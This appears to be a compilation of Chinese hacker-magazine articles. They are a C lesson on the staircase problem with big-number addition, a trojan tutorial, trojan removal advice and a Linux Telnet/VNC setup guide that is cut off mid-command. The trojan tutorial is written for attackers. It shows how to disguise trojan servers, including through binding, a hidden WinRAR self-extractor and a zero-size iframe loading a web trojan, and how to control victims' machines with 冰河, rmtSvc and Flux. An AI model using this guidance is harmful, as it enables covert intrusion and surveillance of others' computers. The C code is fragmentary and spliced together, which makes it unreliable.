老师引导大家分析“上梯子”问题：从第 0 梯到第 3 梯逐步推导方法数，得到第 0 梯=1，第 1 梯=1，第 2 梯=2，第 3 梯=3，并归纳出递推关系：第 n 梯方法数=第 n-1 梯+第 n-2 梯。

```c
#include <stdio.h>
int main()
{
    int i;
    int value[12];
    value[0] = 1;   // 第0梯方法数
    value[1] = 1;   // 第1梯方法数
    for(i = 2; i <= 11; i++)
    {
        value[i] = value[i-1] + value[i-2];
    }
    printf("%d", value[11]);
    return 0;
}
```

“我们运行，得到结果如图20。大家可以看到结果为 144。”


继续讨论梯子更高时的计算。老师提问若梯子有 100 梯如何计算，小菜回答可将数组规模改为 100 并重新编译运行。


随后转入调试速度与断点调试：单步执行较慢，可在目标行设置断点，按 F9 出现红色标记，再按 F5 运行，程序会在断点处暂停。

老师说道：无论直接执行还是单步调试，程序运行机制相同；掌握调试后能更自如地控制程序。小菜们对 watch 窗口变量自动变化表示惊讶与认同。


老师总结初步调试经验：除单步执行与 watch 变量外，还有跟入、设置断点等技巧，并准备通过更复杂实例继续讲解。


> “一直都还正常；我们反复按 F5 继续运行，注意观察在 Auto watch 中的值。当 i=47 的时候，出现问题了，如图24。”


“是啊，`value[45]=1836311903`，`value[44]=1134903170`，那应该 `value[46]=value[45]+value[44]=2971215073` 啊！”大家奇怪地说。

“我们用 16 进制表示，可以看得清楚点，`value[45]+value[44]=0x6d73e55f+0x43a53f82=0xb11924e1`，而结果的第一位十六进制是 b，所以首位为 1；在计算机系统中，对于有符号数来说，第一位是符号位，为 1 时表示是负数了。”

“所以，我们的值超过了计算机整数可容纳的范围啦！”……“那怎么解决呢？”……“如果编程语言直接提供的类型容纳不下，我们就要自己实现一种类型来表示了。这里，我们用数组的方式来表示大数！”

### 6.3 大数上梯子

“用数组来表示大数的思路是，用一个 int 型数组，数组的每一个元素存放数的一位，这样可以轻松表示几百位上千位的大数了。”

“用这种方法表示大数后，就需要有一种方法来作相加的运算。我们用数组的最低位 `[0]` 保存该数字的个位，然后 `[1][2]`……依次表示十位、百位……写一个测试代码如下。”

```c
#include <stdio.h>
int main()
{
    // a[0], b[0]...
    int a[501], b[501];
    for (int k=1; k<=100; k++)
        a[k] = b[k] = 8;
}
```

```c
a[0] = b[0] = 100;
int r[501];
int c = 0; // 进位值
int i = 1;
while (i <= a[0] && i <= b[0]) {
    r[i] = (a[i] + b[i] + c) % 10;
    c = (a[i] + b[i] + c) / 10;
    i++;
}
if (i <= a[0]) {
    r[i] = (a[i] + c) % 10;
    c = (a[i] + c) / 10;
    i++;
}
if (i <= b[0]) {
    r[i] = (b[i] + c) % 10;
    c = (b[i] + c) / 10;
    i++;
}
if (c != 0) r[0] = i;
else r[0] = i - 1;
for (j = r[0]; j >= 1; j--) printf("%d", r[j]);
return 0;
```

> “可以看到打印了正确的结果，虽然位数有 100 位，如图25。”


“有了这种方法后，我们改写原来的那个程序，加入大数的相加在里面，得到程序如下。”

```c
#include <stdio.h>
int main()
{
    int a[101][501];
    a[0][0] = 1;
    a[0][1] = 1;
    a[1][0] = 1;
    a[1][1] = 1;
    for (int i=2; i<=100; i++) {
        int c = 0;
        int j = 1;
        while (j <= a[i-1][0] && j <= a[i-2][0]) {
            a[i][j] = (a[i-1][j] + a[i-2][j] + c) % 10;
            c = (a[i-1][j] + a[i-2][j] + c) / 10;
            j++;
        }
        if (j <= a[i-1][0]) {
            a[i][j] = (a[i-1][j] + c) % 10;
            c = (a[i-1][j] + c) / 10;
            j++;
        }
    }
}
```

# 主题乐园

```cpp
if(i<=a[t-2][0])
{
    a[t][i] = (a[t-2][i]+c) % 10;
    c = (a[t-2][i]+c) / 10;
    i++;
}
...
for(int i=a[100][0]; i>=1; i--)
    printf("%d",a[100][i]);
return 0;
```


“编译、运行，结果如图26所示。”  
“所以上100梯的结果是57314784401381708410！”

老师继续说道：如果引入 C++ 的思想，可以写一个大数类，用数组表示大数并重载 `+` 运算符，像普通数据类型一样使用。随后说明面向对象思想、按位压缩存储（如用一个数组元素表示多位）以节省空间，并引导到后续网络工具、后门工具与探测工具等主题。（本文涉及的相关源码，光盘中有收录。）

# 浅谈木马种植——Trojan

3000多年前特洛伊木马典故引入，借“木马”隐蔽渗透的历史故事类比现代攻击；并提出本文将从实战角度介绍木马的工作机制与防范思路。

木马通常由客户端（Client）与服务端（Server）组成：服务端驻留目标主机，客户端发送控制命令，服务端执行并反馈结果。要控制系统，第一步是让服务端程序植入并运行。

服务端上线后需与客户端建立联系，可通过邮件、即时通信、文档等方式回传敏感信息；也可能监听高端口或伪装常见端口（如 80）以规避排查。

## 一、木马功能

木马的核心价值在于对目标系统的远程控制：文件删除/修改、系统配置变更、屏幕监控、口令窃取与隐私数据收集等；能力越强，潜在危害越大。

## 二、木马工作的简单阐述

传统木马架构包括客户端与服务端两部分，客户端发起控制，服务端执行指令并返回结果。

## 三、木马的隐藏和伪装

隐藏是木马生存关键：不显示窗口、不易在任务管理器中识别；可通过端口伪装、DLL 注入、系统服务注册、钩子（如 SETHOOK）等方式降低暴露概率。

部分样本会避免新增文件与明显进程，或利用系统签名与校验机制进行伪装，使其看起来像正常应用流量与行为。

但在收到一些特殊的数据包后，就会按照“指令”调用木马程序执行相应的命令。前面讲到客户端（Client）向服务端（Server）发送命令，其实一般也是通过端口来达到通信的目的。现在大部分木马是基于 TCP/IP 协议通信，即开的端口也是 TCP 类型的。至于什么叫端口，可以粗略理解为：如果一台计算机要与外界联络，必须开相应端口。这就如一座房子，整个房子是计算机，而门则是端口；你想走出房子到街上（互联网）或别人家（另一台计算机）去，就首先得打开门，人才可能走出房子（台下——菜鸟：“那我跳窗户不行吗？”“可以！等下大家离开时把门锁上，让他跳窗户，哦，对了，这里是7楼！”菜鸟闷声立刻不见人了）。另外，木马除了利用常见的 TCP 通信方式，有些木马也会利用 UDP、ICMP（利用这种方式通信，通过分析数据包内容可以知道攻击者）等等。

## 伪装

当你在目标机器上还没获得什么权限，而需要让目标机器的管理员运行服务端（Server），通过木马提升自己的权限，那么你就得伪装木马服务端。伪装的方法大约有以下几种：

- 1. **图标伪装**：黑客可以把木马图标换成网页图标、文本文件图标等，迷惑管理员以为这个文件并不是 EXE 可执行文件。当倒霉的管理员不小心运行后，嘿嘿~~~好戏开始咯。
- 2. **名字伪装**：可以把名字取得特殊一点以诱导管理员运行木马服务端，比如“我爱你”“我好崇拜你哦”之类；也可以改成类似系统文件的名字，如“Windows”“System”等。
- 3. **提示伪装**：运行后没有明显反应容易引起怀疑，因此一些木马会弹出提示；提示内容也可由攻击者修改，如“对不起，该文件已损坏！”“系统文件出错，请重新拷贝该文件”等。
- 4. **自动删除**：在运行一些木马服务端后，文件会自动“消失”，这也是木马隐藏保护自己的一种方式。
- 5. **文件捆绑**：一些木马能绑定系统文件，当管理员运行被绑定文件后木马也在后台悄悄运行。该方法伪装欺骗管理员更理想，但要注意木马服务端体积。若体积很大，被绑定后文件明显变大，管理员较易发现端倪。以上方法是把木马服务端直接伪装，下面是利用第三方软件（漏洞）让管理员运行木马。
- 6. 绑定的文件也可以是自己做的“毒文件”，比如做一个“贺卡”程序，通过电子邮件发送就很容易传播。表面看上去很友好，但当管理员运行后……嘿嘿。这里给大家带来一款我比较满意的 EXE 文件合并器：Bind。只有一个文件，解压后运行如图1。


“exe文件1”处和“exe文件2”处填写需要合并的两个 EXE 文件（记住是 EXE 文件）。然后在“生成文件”处选择好生成文件存放路径，点击“开始”即可，如图2。上图中把一个游戏和一个 SQL 注入工具合并在一起，生成文件放在 C 盘下，名字为“1.exe”，运行后先执行“wis.exe”，然后才是游戏“人机对战俄罗斯方块.exe”。大家可以按文中方法把木马服务端和正常文件捆绑，管理员运行合并程序时只会看到正常文件运行，而真正木马服务端会在后台悄悄运行。


最近闹得很热的“电子图书（CHM）木马”也是属于这种类型的伪装方式。上面这种方法有个缺点：只能 EXE 文件相互捆绑而不能捆绑其他类型文件。各位想象如果是一张图片隐藏着木马，那上当几率是不是更大？这里教大家一个老但灵验的方法：用 WINRAR 压缩软件来达到伪装木马的目的。

选择好两个文件，一个是 dog.exe（木马文件，并把 dog.exe 属性改为隐藏，解压出来后不容易被发现），一个是 magic.jpg（正常图片文件）。右击选择“添加到‘桌面.rar’”，如图3。在同目录下生成“桌面.rar”，双击打开并点击“自释放”图标，打开如图4。点击“高级自释放选项”进入如图5界面。


在“高级自释放选项”中（图4画线处）打开图5窗口。在“释放路径”处最好填写 `c:\windows\temp`，即把解压后的文件放在这里……在“释放后运行”填写木马程序名，位置别弄错了。来到“模式”项，图6。


选上“全部隐藏”和“覆盖所有文件”……增加迷惑性。来到“高级”项，图7。


这里可以设置在解压结束后要删除的文件……在同目录下就生成了一个 EXE 文件。

7、网页木马：这种木马现在很火……以动鲨大哥的网页木马生成器为例。

打开“动鲨网页木马生成器”，如图8。（注：程序界面的右边是 SEASKY 的网页木马生成器，但这里我们以动鲨大哥的为例）在图8中把画横线处填写你木马的网站地址……如图9。


然后点击“生成网页木马”，程序就会生成一个名为“动鲨木马”的文件夹，里面有3个 web 文件：`dog.html`、`lhxyexe.asp`、`lhxyhta.asp`。然后把这段代码放到网页 body 区域中：`<iframe src="dog.html" name="zhu" width="0" height="0" frameborder="0">`……把相关文件上传到 ASP 空间即可。

## 实战一：冰河 V2004[情人节专版]

这个算是我们的元老级木马了。解压后会生成一些文件，其中“g_client”是客户端（Client）即控制端，“G_Server”是服务端（被控端）……开始用客户端“g_client”连接，打开冰河客户端程序，主界面如图10。


界面看上去还行……为了防止同行进入抢走肉鸡，我们最好给服务端设置密码、修改端口等。在工具栏上执行“设置→配置服务程序”，如图11。


有文字说明的，都是傻瓜式操作……“访问口令”处设置访问目标机操作身份验证密码，“监听端口”处修改服务端在目标主机上运行后开放的端口。配置好后，点确定生成新的服务端，如图12。


## 四、实战深入


……提示：各位在修改时最好把端口改成 1024 以上的端口，点击确定，在列表里便有了我们才添加的主机了，如图14。


现在只用把光标放在列表里的“magic dog”处轻轻那么一击，软件就开始连接咯。连接成功后在右边的窗口会看到目标机器的磁盘驱动器，如图15。


双击任何一个驱动器便可以打开它了，打开后如图16。


横线处表明该目录下文件的多少。这样我们就可以在对方的磁盘里如同在自己的计算机里执行命令了，比如：删除、复制、粘贴、新建文件夹、文件上传/下载、查找功能等。在工具栏里的“文件”菜单下还有一些功能，比如我们最喜欢的屏幕监视和控制，图17。“捕捉屏幕”只能获得目标机器某个时间的情况，而屏幕控制可以连续不断……


监视和控制对方屏幕。当你进入控制对方屏幕状态时，可以使用图18的命令。也许你会抱怨控制的范围是不是太小了点，呵呵，别抱怨哦，先看看冰河的命令控制台再发表意见，图19。


……各位别被分支下的命令吓着了，这些功能够用了吧？好了，冰河的部分功能我就说完了，大家自己再仔细研究后实践。下面我们开始木马实战二吧！


## 实战二：打破传统的木马——rmtSvc

号称国内第一款以 B/S 方式通信的木马，所谓“B/S”即“BROWSER/SERVER”（与前面所述的传统木马 C/S 相对）。解压后只有一个名为“rmtSvc”的文件，而经典的是它的客户端（Client）打破了传统手法：客户端（Client）可为 IE 或 mozilla 浏览器。无论你身在何方，只要有可以正常使用的浏览器就可对肉鸡进行完全控制，即使是在 Linux 下通过浏览器也可以对肉鸡进行控制，支持远程登录、shutdown/restart、动态实时刷新等，其内置 FTP 服务和代理服务等功能。把解压后得到的唯一那个 EXE 文件，不管你用什么方法传到肉鸡上去，然后在肉鸡的 SHELL 里输入命令：`rmtsvc -i`，这样木马就安装成功了。接下来我们再把木马所要的服务启动，输入命令：`net start rmtsvc`，一会儿服务就启动了，如图20。


OK，现在开始连接，我们输入肉鸡 IP 和它的端口。我在本机安装好后输入的是：`http://127.0.0.1:7776`（这里注意一下 RMTSVC 在肉鸡上默认开启 7776，可以通过程序控制界面修改它），效果如图21。


输入密码：123456，点“OK”进去，就可以开始对肉鸡进行控制了（该软件需要注册后才能修改，默认密码 123456）。在工具栏上，我会看到：

- PVIEW：显示肉鸡的进程和系统相关信息。可以管理进程，比如 KILL 掉进程，设置进程级别优先级等。
- SPY++：这个是我们喜爱的屏幕监控，而这个监控和冰河不一样，它可以像在自己机子上操作肉鸡的屏幕，图22。


在浏览器上看到了我机子的部分桌面和打开的 RMTSVC，是不是有点画中画的感觉？如果我在浏览器中双击“俺的肉”，那么等于在肉鸡上打开“俺的肉”了，可以说完全控制了对方。至于 PROXY、FTP，不用我多说了吧。LOGOFF 相当于 Windows 上的注销。OPTION 里没什么可利用的，里面可以填写注册码。

这种木马的确有别于传统的 C/S 木马，优势也是显而易见的，特别是当我们在别人机器上时，因一些原因要对某台肉鸡进行操作但手上却又没客户端（Client）来……

## 实战三：反弹木马——Flux

谈起反弹木马，大家自然会想到声名赫赫的“网络神偷”，但今天要说的是一个 DLL+IP 反弹木马：Flux。首先说明“反弹”之意：传统木马是客户端主动连接服务端，而在防火墙环境下，外部访问本机端口会受限制，本机向外发送数据却相对宽松，因此出现“让肉鸡连接我们”的反向思路。

Flux 体积约 147KB，支持 DLL 插入、启动项/服务注册、文件与进程管理等。文中指出其优势在于反弹连接方式，适合在无法直接入站连接目标时使用。随后进入实操，先打开 Flux 主界面（图23）。


首先通过工具栏 `file -> new server` 打开服务端配置窗口。`Installation` 选择服务端加载运行方式并填写文件名；`Connect` 设置连接端口（可自定义）、本机 IP 与连接密码。总体上 RMTSVC 在连接配置方面更便捷安全。

`StartUp` 选择服务端适配系统（WIN95/98/NT/2000/XP，可全选）；`Melt server after install` 建议勾选；`Firewall bypassing` 为防火墙相关设置。配置后如图24。


点击 `Save...` 在同目录生成服务端。文中进一步建议使用 DNS 反弹：由于多数用户是动态 IP，可通过动态域名解析将变化 IP 绑定到固定域名，从而让目标持续可达。示例中推荐使用“花生壳”客户端（图25）。

动态解析原理：客户端将当前公网 IP 实时提交到解析服务，DNS 将域名解析到最新 IP。这样即便重新拨号导致 IP 变化，仍可通过固定域名访问，实现反弹连接所需的稳定入口。


当服务端运行后，打开 Flux（图26）。在密码栏输入服务端设置密码（示例为 `hz`），端口改为 520 后点击 `Listen` 开始监听（图27）。


界面变灰表示正在监听；密码显示星号数量不代表字符长度。若连接不上需排查端口与密码配置。文中示例很快建立连接，连接成功后如图28。


连接成功后，主界面会显示目标信息。可在 IP 条目右键使用 `filemanager`、`view tasklist` 等功能进行文件与进程操作。作者评价 Flux 功能相对简洁但实用，反弹方式具有明显价值。文末提示因篇幅限制，后续将继续介绍木马防护与清除的一些基本的、常用的方法。

## 通过设置木马启动方式及其发现和清除方法

前面说了一些木马的应用，大家看后自己一定也能从中知道一些相关防范方法了。我们不但要会用木马，还得知道怎么防止、发现和清除；要是哪天被同行种了木马还不知道就危险了。

## 1. 木马的启动

当计算机重新启动后，如果没有把程序设置为随系统启动，那么它将不会再运行了，而我们的马儿当然得长期和我们保持联系了，所以我们得想方设法让木马服务端随目标系统启动而启动……

- 1) 注册表启动

您说这个有点老生常谈，请大家注意以下键值：

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
```

（这里只要有“run”敏感字眼的都仔细点瞧瞧。）如冰河木马的启动键值是（都为字符串值）……从上面不难看出，如果我们在注册表里找到木马，也相应找到它们的位置，有助于我们清除木马。

- 2) 利用系统文件

可利用的有 Win.ini、system.ini、Autoexec.bat 和 Config.sys。

一些程序启动可以通过系统的 system.ini、win.ini 文件启动……注意诸如 `shell=Explorer.exe` 等语句是否被篡改；在 win.ini 中还要注意 `run=` 和 `load=` 行。


```text
run=c:\windows\dog.exe
load=c:\windows\fdog.exe
```

这里 dog.exe 很可能是木马或别的恶意程序。在 C 盘根目录下 Autoexec.bat 和 Config.sys 中可加载程序运行……另外也应该注意 ini 文件（应用程序启动配置文件）。

- 3) 系统启动组

通过“开始”→“程序”→“启动”可查看启动组。


在启动组我们可以看到只有一个程序“REALONE 音乐播放器”……启动组对应系统路径及注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Exp`

# 主题乐园

在 `Shell Folders` 下可找到 `Startup` 字符串值，其数值数据指向“开始→程序→启动”目录。文中说明该位置既可用于正常启动项，也可能被木马利用以提升权限并持久化。

注册表路径示例：`HKEY_CLASSES_ROOT\txtfile\shell\open\command` 与 `HKEY_LOCAL_MACHINE\Software\CLASSES\txtfile\shell\open\command`，默认值类似 `%SystemRoot%\system32\NOTEPAD.EXE %1`。

并列举 `hlpfile` 的关联键值（如 `winhlp32.exe %1`），说明文件关联被篡改时可通过对比默认命令发现异常。

介绍 `ASSOC` 与 `FTYPE` 命令：前者用于扩展名与文件类型关联，后者用于显示/修改该类型的打开命令。可通过 `help assoc`、`help ftype` 查看详细用法。

### （4）文件关联

修改文件关联是木马和病毒常用手段。以 `.txt` 为例，正常应由 `Notepad.exe` 打开，若被改为恶意程序则双击文本文件会触发木马。

文中强调 `.exe`、`.com`、`.zip` 等常见类型都可能被劫持；若仅阻断启动路径而不修复关联，防护会失效。

- 解决文件关联的三种方式：
  1. 修改注册表
  2. 修改文件属性/文件夹选项
  3. 在命令提示符下修复

① 修改注册表：若 `.exe` 关联损坏，可先把扩展名临时改为 `.com` 以便执行命令，再定位到 `HKEY_CLASSES_ROOT\exefile\shell\open\command` 与 `HKEY_LOCAL_MACHINE\Software\CLASSES\exefile\shell\open\command`，检查默认值是否为 `"%1" %*`。

类似方法可用于查找文本文件关联：通过注册表键值对照默认打开命令，若存在异常则改回。

② 进入“控制面板→文件夹选项→文件类型”（图34），若某扩展名关联被改，可新建或编辑关联（图35）。

若是 `.exe` 关联被改，在输入框中输入 `exe`，点击“高级”，在动作中选择“应用程序”（见图36），确定保存后即可恢复。

③ 命令行修复：可执行 `ftype exefile="%1" %*` 或 `assoc .exe=exefile`（不含引号）来恢复执行文件关联。

使用 `ftype | more` 可逐页查看系统文件类型定义，可见 `exefile="%1" %*`（图38）。

排查过程中还可看到 `batfile`、`cmdfile` 等类型；只需修复 `.exe` 到 `exefile` 的映射。执行后屏幕应显示 `.exe=exefile`，或显示 `exefile=%1 %*`（图39）。

### （5）服务

文末开始引入“通过加载服务实现系统驻留”的木马手法。

启动的目的，因为系统要正常运行，减少不了一些服务，而这些服务是在系统启动时就开始被系统运行，所以木马也可以这样来启动自己，而且在进程管理器列表里看不到相关进程。如果我们对某一个服务觉得很可疑，可以把这个服务删除，重新启动计算机就可以了。以 WINXP 为例，依次“我的电脑”→“控制面板”→“管理工具”→“服务”，就打开了如图40的窗口。

傻瓜式地操作没什么好说的，就怕你不想学会都难。如果你不知道软件所加载的具体服务是什么，可以点击每个服务，通过左边的描述来查看（要看到“描述”，必须把查看形式设置为“扩展”，如图40左下角）。可疑的服务只用注意已经启动了的服务就可以，找到后双击该服务所在的那一栏，弹窗口，如图41。

该图是本机上“江民”的启动服务，要它停止，点击弹出的对话框中的“停止(T)”按钮就行了。当然你也可以用命令提示符来禁止该服务，这样更快捷些，命令格式是：`net stop + 服务名`（停止服务）；`net start + 服务名`（开启服务），如图42。

“木马的启动”到这里就告一段落了。别奇怪我为什么花这么多时间来说木马的启动，其实这算是发现木马和清除木马的综合技术了，因为任何一款木马都会想尽一切办法来让自己随系统而启动。如果你能发现它通过什么来启动，从而不让它启动，一切就尽在你的掌握之中了。

```bat
assoc .exe
assoc .exe=exefile
ftype
ftype exefile="%1" %*
```

### 2．木马的蛛丝马迹

到这里，我想大家应该知道木马的一些一般特征了，比如利用端口（常见的是 TCP 端口协议）进行通讯，要在注册表里动手脚（不一定是为了启动）等等。其实有时我们可以从系统的一些“特殊现象”做个大致的判断，形象点说就是在地震来临之前我们可以看到一些小动物十分不安宁，并且水深度出现异常等等。同样地，如果我们的机器中了木马，也一定会表现出一些异常现象。

- A．计算机速度下降；
- B．自己未对计算机进行磁盘的读写等操作，但硬盘灯却闪个不停；
- C．软驱和光驱无故读个不停；
- D．计算机莫名其妙被关闭或者重启或者注销等；
- E．硬盘空间突然减少；
- F．正在操作电脑，突然弹出一对话框来，和你谈话；
- G．Windows 系统配置总是被更改，等等。

其实还有很多“特殊现象”。比如前面介绍的“冰河”，直接对目标屏幕进行操作的就有“WIN”键操作（打开开始菜单）、“SHIFT”键操作、“Ctrl”键操作、“TAB”转换操作、“Caps Lock”键操作（输入大小写）等等。而 IRMTSVC 对屏幕的操作就更多了。而这些都只是对屏幕的操作而已，对计算机进行更多操作（比如修改配置，随意打开光驱等）。总之大家应把自己的眼睛放亮点，不要放过一丝一毫的异样。而且即使发现计算机有异常情况，也不代表你一定没中木马。

我们可以在“运行”输入“msinfo32”回车，依次来到“软件环境”→“正在运行的任务”，如图43。

如果发现哪个项目只有程序名和路径，而没有版本、厂商和说明，大家应该把它列为可疑“人物”了，如图44。

进一步地，我们可以通过端口来发现木马，这里给大家介绍一个 CMD 下的端口查看命令：`netstat -an`，你也可以用端口扫描器来查看自己的计算机开了哪些端口，如图45。

其中“Proto”下显示的是哪种类型的端口；“Local Address”下显示的是本地 IP 和端口；“Foreign Address”下显示的是外地 IP 和用的什么端口来连接这台计算机的某某端口；“State”下显示的是一些状态，“LISTENING”状态表示正在保持连接。OK，如果我们发现了自己机子上开了个可疑的端口，正巧入侵者正在连接着我们的计算机，那么对着本地这个可疑的端口向右看过去，就可以知道入侵者的 IP 和他所用的什么端口来连接这台计算机。

其实要发现木马，一方面需要一定程度上的知识了解，另一方面则是长期接触网络以来形成的一种意识——“第六感”！不放过发生在计算机里的任何一个细节，时刻保持警觉性。

### 3．木马的清除

要省事，最好就是买正版的杀毒软件、木马专杀工具，并常常保持升级。虽然这样做不是百分之百可靠，但是可以在很大程度上减少我们的麻烦。

这里我给大家推荐一个免费的杀木马工具：3721 的木马助手。大家先看看它长啥样，如图46。

我之所以给大家推荐它，其一是因为它是免费的（可在线升级）；再者，它查杀木马的能力也的确比较令人满意。使用也很简单，查杀方面有“快速查杀”“全面查杀”两种选择。“快速查杀”是扫描并消除系统里的一些敏感地方，也就是病毒木马常常驻留的地方；“全面查杀”可以扫描整个硬盘，也可以自定义路径查杀。常用工具具有“系统免疫”“IE 修复”“隔离区”。

“系统免疫”可减少系统受到恶意网站的侵害；“IE 修复”如图47，它可以帮你恢复 IE 最容易受到的一些攻击；“隔离区”就是隔离病毒、木马等。在高级工具里我们可以查看进程和系统服务及网络连接，帮助我们清除木马。还有，当“3721木马助手”运行后会自动在系统托盘里出现，关闭程序后它仍在系统托盘里，但这并不代表它带有监视功能……

而当我一打开，机子上的“江民”就立刻报警了，所以“3721木马助手”并不带监视功能。其实“木马克星”也很棒，尤其是对付国产木马，只是要收取费用。而如果你知道自己中的是什木马，可以在网上看看有没有关于这个木马的专杀工具……由于国产木马“冰河”的泛滥，作者就写了一个“冰河陷阱”……

可以看到入侵者的登录密码、操作、IP，也可以用它附带的“冰河信使”同入侵者对话，如图50。而一些木马、后门有自带卸载的功能，以 RMTSVC 为例来说明：进入目录执行 `rmtsvc -u`，就可以把 rmtSvc 服务从服务控制台（SCM）卸载了。

如果遇到连正版杀毒软件、木马专杀工具都无法查杀的木马，那么我们就只有自己动手了。第一步，得断木马的后路，不让它随系统启动并去掉它的关联；第二步，得把黑客在计算机上装的服务端删除掉。由于木马正在后台没法删除，我们要先结束木马的进程、停掉服务……可以利用任务管理器的“结束进程树”来 KILL 这两个进程，如图51。

```text
PK 520
PK 250
```

把这两行加入到批处理，再把该文件放在 pk.exe 同目录下双击运行……我们就该从 DOS 下来清，这样不必启动系统，木马、病毒也不会启动了……下面我们来看个清除木马（冰河 v1.1）的具体例子：打开注册表至 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`，查找并删除可疑启动项。

重启后到 DOS 方式删除：`C:\windows\system\kernel32.exe`、`C:\windows\system\sysexplr.exe` 等木马程序，再启动 Windows。由于冰河服务端可由种马者自配路径，所以文件名不一定固定，可通过注册表启动项发现可疑程序。总结方法：清除木马关联→不让木马随系统启动→木马启动后删除它的服务端。

## 4．木马的防范

1. 不要轻易运行别人给的任何文件。
2. 常看任务管理器，了解运行进程。
3. 注意系统中文件体积变化（如被捆绑体积变大）。
4. 关注本机开放端口，尤其是 1024 以上端口。
5. 不要轻信 E-Mail 附件，熟人来信也未必安全。
6. 不要轻易公开自己的联系方式（如 E-Mail）。
7. 别随便下载来历不明的软件。
8. 条件允许可将重要数据放在不联网电脑中。
9. 不要在网上随便发表攻击性言论。
10. 一旦发现异常，立即断网，尽量降低损失。

（文本涉及的相关工具：BinEXE 文件合并器、动静网页木马生成器、冰河 v2004[情人节专版]、rmtSvc、Flux、花生壳、3721 木马助手、木马克星、冰河陷阱等。）

# 主题乐园

对于系统管理员或网络管理员来说，常需要进行远程维护。传统方式在外出或故障紧急时很不便，而网络与 Internet 的普及让远程处理成为可能。通过电话线或便携电脑即可进行系统维护与故障处理。

对网络技术爱好者而言，远程服务器实验也是积累实践经验的重要途径。无论是学习黑客技术还是正常运维，都需要远程操控服务器。本文介绍在 Linux 下使用远程控制服务的方法。

## 二、使用 Telnet 远程管理

Telnet 是经典远程管理服务，虽因明文传输存在安全隐患而受争议，但仍是常见远程管理方式之一。在 Red Hat Linux 9 中，使用 Telnet 客户端连接远程主机很简单。

```bash
[root@hackbase root]# telnet hostname
```

其中 `hostname` 为目标主机 IP 地址或主机名。

### （一）安装 Telnet 软件包（通常要两个）

1. **Telnet-Client（或 Telnet）**：提供 Telnet 客户端程序。  
2. **Telnet-Server**：提供 Telnet 服务端程序；安装前先检测是否已安装。

```bash
[root@hackbase root]# rpm -q telnet
[root@hackbase root]# rpm -q telnet-client
[root@hackbase root]# rpm -q telnet-server
```

若未检测到软件包，需要安装。Red Hat Linux 9 默认已安装 Telnet 客户端，一般只需安装 Telnet 服务器端软件包。

- 方法一：在 Red Hat Linux 9 的 3 号安装盘中获取 `telnet-server-0.17-25.i386.rpm` 软件包。

```bash
[root@hackbase root]# rpm -i telnet-server-0.17-25.i386.rpm
```

- 方法二：在图形环境中通过“系统设置→服务器→网络服务器”添加 `telnet-server` 服务程序（需插入安装光盘 3）。

重新设置防火墙，允许访问服务器的 Telnet 服务（安全级别中自定义允许进入）。

### （二）启动 Telnet 服务

1. 开启服务：可使用 `ntsysv` 勾选 Telnet 后确认。  
2. 编辑 `/etc/xinetd.d/telnet`，将 `disable=yes` 改为 `no`。  
3. 激活服务。

```bash
[root@hackbase root]# vi /etc/xinetd.d/telnet
[root@hackbase root]# service xinetd restart
```

### （三）测试服务

执行 `telnet ip`（或 hostname），配置正确时系统提示输入远程机器用户名和密码。

```text
login:
Password:
```

注：默认只允许普通用户。

### （四）设置 Telnet 端口

编辑 `/etc/services`，查找 `telnet` 条目，可见默认端口为 23（tcp/udp），可修改为未使用端口并重启服务使其生效。

```text
telnet 23/tcp
telnet 23/udp
```

### （五）Telnet 服务限制

Telnet 为明文传输，建议限制可访问主机范围。例如针对主机 IP `192.168.0.1` 可在服务配置中设置允许网段、拒绝列表及开放时段等。

```conf
### vi /etc/xinetd.d/telnet
service telnet
{
  disable = no
  bind = 192.168.0.1
  only_from = 192.168.0.0/16
  no_access = 192.168.0.110 120
  access_times = 8:00-12:00 20:00-23:59
}
```

### （六）Telnet root 用户的登录

默认不允许 root 通过 Telnet 登录 Linux 主机；若需开启可按文中方法修改相关配置文件。

```bash
pam.d/login
#auth required pam_securetty.so
### 将这一行加上注释！
[root@hackbase root]# vi /etc/securetty
```

加上 `pts/0, pts/1, pts/2, ...`；普通用户登录需添加 `pts/0` 即可，root 用户登录需添加 `pts/0、pts/1` 即可。普通用户帐号可以多人同时登录，root 用户帐号仅限一人。

```bash
[root@hackbase root]# mv /etc/securetty /etc/securetty.bak
```

这样，root 就可以直接进入 Linux 主机了。不过建议不要这样做。也可以在普通用户进入后，切换到 root 用户，拥有 root 权限。

由于 Telnet 是标准的提供远程登录功能的应用，几乎每个操作系统的 TCP/IP 协议实现都提供了这个功能，所以 Telnet 不仅可以用于同种操作系统之间的远程登录，还可以用于异种操作系统之间远程登录。Rsh、Rlogin 等通常只用于 Linux 及 Unix 间。因此 Telnet 可以说是最流行的远程控制解决方案。

## 三、使用图形化的 VNC

除了命令行方式的 Telnet 与 SSH 两种远程管理控制系统外，Linux 还提供功能更强大的 VNC 图形化远程控制工具。对于熟悉 Linux 命令的用户，命令行管理仍然有效；但对不熟悉 Linux 命令、习惯 Windows 的新手，图形化远程管理方式更易使用。

Linux 下利用 VNC 进行图形界面的控制也很简单。VNC 由两部分组成：客户端应用程序（Vncviewer）和服务器端应用程序（Vncserver）。

### （一）安装 VNC 的 rpm 包

图形界面下可在 KDE 或 GNOME 中直接点击 rpm 包自动安装；也可从系统设置中通过“添加/删除应用程序→服务器→网络服务器→vnc-server（VNC 服务器）”安装。

下面还可以通过命令行安装，一个命令即可：

```bash
[root@hackbase root]# rpm -ivh vnc-server-3.3.3r2-47.i386.rpm
```

### （二）安装 VNC 服务器

如果系统已安装 VNC 服务器但未启动，需在系统服务中选择启动 VNC 服务。若需手工启动，可执行命令：

```bash
[root@hackbase root]# vncserver
```

第一次启动 VNC 服务器时，程序会要求输入并确认访问口令，然后显示显示装置编号和启动日志路径。此时即可使用 VNC 客户端按编号连接服务器。

### （三）配置 VNC 服务器

默认配置一般为 1024×768、8 位色。可根据需要调整分辨率和色深，例如 800×600、16 位色：

```bash
[root@hackbase root]# vncserver -geometry 800x600 -depth 16
```

不需要使用 VNC 时，出于安全性考虑应停止 VNC 服务。停止命令示例：

```bash
